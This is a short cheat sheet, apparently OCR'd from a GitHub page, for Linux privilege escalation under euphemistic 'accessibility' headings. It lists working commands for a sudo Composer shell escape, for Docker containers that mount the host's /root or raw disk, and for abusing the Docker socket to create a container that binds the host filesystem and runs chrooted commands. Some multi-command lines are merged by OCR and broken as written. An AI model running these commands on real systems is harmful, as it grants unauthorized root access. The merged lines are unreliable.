 
### Miscellaneous Tips and Tricks

#### Improve Accessibility

- Utilize GTFOBins for privilege escalation: [GTFOBins](https://gtfobins.github.io/)

#### Increasing Accessibility with Composer

- Create a temporary directory:
    
    
    
    `TF=$(mktemp -d)`
    
- Create a `composer.json` file in the temporary directory with a custom script:
    
    
    
    `echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > $TF/composer.json`
    
- Run the custom script using sudo and Composer:
    
    
    
    `sudo composer --working-dir=$TF run-script x`
    

#### Increasing Access with Docker

- Run a Docker container with access to the host's root directory:
    
    
    
    `docker run -v /root:/mnt -it ubuntu`
    
- Run a privileged Docker container with a specific image:
    
    
    
    `docker run --rm -it --privileged nginx bash`
    
- Mount a device into a Docker container:
    
    
    
    `mkdir /mnt/fsroot mount /dev/sda /mnt/fsroot`
    

#### Increasing Access with Docker Socket

- Check Docker exposure using curl:
    
    
    
    `curl -s --unix-socket /var/run/docker.sock http://localhost/images/json`
    
- Create a Docker container and execute a command in a chrooted environment:
    
    
    
    `cmd="whoami" payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$cmd\\\"\"]" response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds \": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create) revShellContainerID=$(echo "$response" | cut -d'"' -f4) curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start sleep 1 curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`
    